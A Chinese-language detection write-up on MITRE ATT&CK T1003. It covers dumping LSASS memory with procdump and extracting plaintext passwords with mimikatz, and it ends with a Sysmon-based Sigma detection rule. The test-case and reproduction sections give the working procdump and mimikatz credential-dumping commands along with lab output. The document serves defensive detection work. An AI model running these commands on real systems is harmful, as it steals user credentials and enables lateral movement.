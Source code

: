 # T1003-windows-Procdump明文凭证

## 来自ATT&CK的描述

凭证获取是从操作系统和软件中获取登录信息和密码的过程，通常为HASH散列或明文密码。然后使用凭证进行横向移动访问其他系统。

用户登录系统后，会生成各种凭据并将其存储在内存中的本地安全机构子系统服务（LSASS）进程中。这些凭证可以由管理用户或SYSTEM进行管理。

SSPI是Security Support Provider Interface（Microsoft安全支持提供器接口）的英文缩写。安全支持提供程序接口（SSPI）允许应用程序使用计算机或网络上可用的各种安全模型，而无需更改安全系统的接口。SSPI不会记录登录凭据，因为这通常是操作系统处理的特权操作。

一个安全支持提供商（SSP）包含在一个动态链接库，通过使一个或多个实现SSPI（DLL）安全包提供给应用程序。每个安全包都提供应用程序的SSPI函数调用和实际安全模型的功能之间的映射。

以下SSP可用于获取凭证：

Msv：交互式登录，批量登录和服务登录通过MSV身份验证包完成；

Wdigest：摘要认证协议设计用于超文本传输协议（HTTP）和简单认证安全层（SASL）交换；

Kerberos：Kerberos V5身份验证协议提供一个在客户端跟服务器端之间或者服务器与服务器之间的身份验证机制 （并且是相互的身份验证机制）；

CredSSP：为远程桌面服务提供SSO和网络级别身份验证；

## 测试案例

以下工具可用于枚举凭据：

- Windows凭据编辑器
- Mimikatz

除了内存技术，LSASS进程内存可以从目标主机转储并在本地系统上进行分析。

例如，在目标主机上使用procdump：

- procdump -ma lsass.exe lsass_dump

在本地，运行mimikatz：

- sekurlsa::Minidump lsassdump.dmp
- sekurlsa::logonPasswords

## 检测日志

sysmon日志

## 测试复现

场景：攻击者利用Procdump获取lsass进程内存文件，本地使用mimikatz获取密码(administrator)。

```
Microsoft Windows [版本 6.1.7601]
版权所有 (c) 2009 Microsoft Corporation。保留所有权利。

C:\Users\Administrator>cd C:\Users\Administrator\Desktop\Procdump

C:\Users\Administrator\Desktop\Procdump>procdump64.exe -ma lsass.exe 1.dmp

ProcDump v8.0 - Writes process dump files
Copyright (C) 2009-2016 Mark Russinovich
Sysinternals - www.sysinternals.com
With contributions from Andrew Richards

[13:42:47] Dump 1 initiated: C:\Users\Administrator\Desktop\Procdump\1.dmp
[13:42:50] Dump 1 writing: Estimated dump file size is 50 MB.
[13:42:51] Dump 1 complete: 50 MB written in 3.3 seconds
[13:42:51] Dump count reached.

C:\Users\Administrator\Desktop\Procdump>

```

## 测试留痕

sysmon事件，进程创建、进程访问、进程结束

## 检测规则/思路

```
title: 明文获取凭证——Procdump
description: windows server 2008 模拟测试结果
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: sysmon
detection:
    selection1:
        EventID: 1
        Image: '*\procdump*.exe'
        Product: ProcDump
        OriginalFileName: procdump
        CommandLine: 'procdump*.exe  -ma lsass.exe *.dmp'
    selection2:
        EventID: 10
        SourceImage: '*\procdump*.exe'
        TargetImage: 'C:\Windows\system32\lsass.exe'
    timeframe: last 1m
    condition: all of them
level: medium
```

建议您关注一下sysmon10.2的新特性OriginalFileName，经过安全人员研究测试发现，在进程创建事件中，procdump修改为ABC，但OriginalFileName依旧能够清晰的识别出该款工具是procdump。

## 参考推荐

MITRE-ATT&CK-T1003：https://attack.mitre.org/techniques/T1003/

windows SSPI模型：https://docs.microsoft.com/zh-cn/windows/win32/secauthn/sspi-model

MSV身份验证包：https://blog.csdn.net/lionzl/article/details/7725116

Wdigest摘要认证协议：https://www.4hou.com/info/news/8126.html

Kerberos身份认证协议技术参考：https://www.cnblogs.com/adylee/articles/893448.html

CredSSP凭证安全支持提供程序协议：https://docs.microsoft.com/zh-cn/windows/win32/secauthn/credential-security-support-provider





